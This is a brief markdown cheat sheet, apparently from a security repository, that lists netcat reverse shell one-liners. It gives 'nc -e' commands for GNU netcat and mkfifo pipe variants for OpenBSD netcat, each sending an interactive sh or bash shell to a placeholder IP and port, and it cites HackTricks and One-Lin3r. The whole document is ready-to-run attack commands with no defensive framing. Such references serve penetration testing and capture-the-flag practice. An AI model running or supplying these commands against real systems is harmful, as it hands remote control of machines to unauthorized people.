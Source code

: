 # Netcat

## 01 - GNU

```
$ nc -e /bin/sh <IP> <PORT>

$ nc -e /bin/bash <IP> <PORT>
```

## 02 - OpenBSD

```
$ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f

$ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)
